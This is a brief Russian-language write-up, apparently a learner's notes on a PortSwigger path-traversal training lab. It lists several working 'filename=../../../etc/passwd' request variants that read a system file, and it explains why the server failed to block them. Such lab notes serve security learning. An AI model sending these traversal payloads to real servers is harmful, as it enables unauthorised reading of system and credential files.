


https://portswigger.net/web-security/file-path-traversal/lab-simple

первая лаба

-----
задание - получить файл  `/etc/passwd`.

сразу очевидная аномалия!
тут каждая картинка приходит как отдельный риквест!

буквально пару мин и готово
GET /image?filename=../../../etc/passwd
получил данные файла 

*интересное для себя заметил, что все эти варианты дали полож  одинаковый результат:
GET /image?filename=../../../etc/passwd
GET /image?filename=/../../../etc/passwd 
GET /image?filename=////..////..///..//////etc/passwd
GET /image?filename=//////////../../../etc/passwd

GET /image?filename=../../../etc/passwd/ - в конце слеш ломет запрос

---

# почему удалось?
сервер не блокировал меня пока я подбирал варианты (подозрит активность)
сервер позволил мне простому юзеру получить файл системный
сайт не блокировал запросы содержащие ../   и etc  и passwd
как я понял сам файл был тип Content-Type: image/jpeg
